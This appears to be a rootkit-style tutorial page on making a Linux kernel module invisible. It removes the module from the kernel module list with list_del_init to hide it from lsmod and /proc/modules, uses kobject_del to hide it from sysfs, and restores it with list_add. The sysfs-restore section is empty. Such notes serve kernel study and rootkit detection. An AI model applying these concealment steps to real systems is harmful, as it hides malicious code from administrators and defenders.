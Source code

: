 ## Stealth 01
---

Loaded modules can be listed by `lsmod` and found through `/proc/modules` and `/sys/modules`.

### Hiding from `lsmod`
--- 
When module is loaded, it's associated with a struct module. All kernel modules are stored in a global liked list. Each loaded module is added to this linked list. The modules are populated in `/proc/modules` from this list, and the `lsmod` command reads `/proc/modules` to give it's output. 

To hide module from `lsmod` just need to remove module from that list:

```c
list_del_init(&__this_module.list);
```

This function is defined on `linux/list.h`:

```c
/**
 * list_del_init - deletes entry from list and reinitialize it.
 * @entry: the element to delete from the list.
 */
static inline void list_del_init (struct list_head *entry)
{
	__list_del_entry(entry);
	INIT_LIST_HEAD(entry);
}
```

### Hiding on `/sys/modules`
---
Just adding the line:
```c
kobject_del(&THIS_MODULE->mkobj.kobj);
```
The `THIS_MODULE` macro and the `struct module` are defined as:
```c
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
```
The function is defined on `linux/kobject.h`:
```c
extern void kobject_del(struct kobject *kobj);
```
A `kobject` struct represents a kernel object, and is defined on `linux/kobject.h`:

```c
struct kobject {
	const char *name;
	struct list_head entry;
	struct kobject *parent;
	struct kset *kset;
	struct kobj_type *ktype;
	struct kernfs_node *sd;                 /* sysfs directory entry */
	struct kref	kref;
#ifdef CONFIG_DEBUG_KOBJECT_RELEASE
	struct delayed_work	release;
#endif
	unsigned int state_initialized:1;
	unsigned int state_in_sysfs:1;
	unsigned int state_add_uevent_sent:1;
	unsigned int state_remove_uevent_sent:1;
	unsigned int uevent_suppress:1;
};
```

### Show to `lsmod`
---
Just have to add back the module to the linked list. Need to define a `list_head` struct that will store the pointer to the head of the list (that's the previous element for the position of the module in the list).
```c
struct list_head  * module;
```
This struct is defined on `linux/types.h` as
```c
struct list_head {
	struct list_head *next, *prev;
};
```
Then, when going to remove the module from the list, first save that pointer that's stored in the `THIS_MODULE` object on the `list.prev` fields
```c
module = THIS_MODULE->list.prev;
```
Afterthat the module can be added to the list and become visible to `lsmod` and `/proc/modules`
```c 
list_add(&__this_module.list, module);
```
The `list_add` is defined on `linux/list.h`
```c 
/**
 * list_add - add a new entry
 * @new: new entry to be added
 * @head: list head to add it after
 *
 * Insert a new entry after the specified head.
 * This is good for implementing stacks.
 */
static inline void list_add(struct list_head *new, struct list_head *head)
{
	__list_add(new, head, head->next);
}
```
### Show to `/sysfs/modules`
---


## References
---
- [Kernel Kobject Device Model](https://medium.com/powerof2/the-kernel-kobject-device-model-explained-89d02350fa03)
- [Linux Kernel: Sysfs and Kobjects](https://www.win.tue.nl/~aeb/linux/lk/lk-13.html)
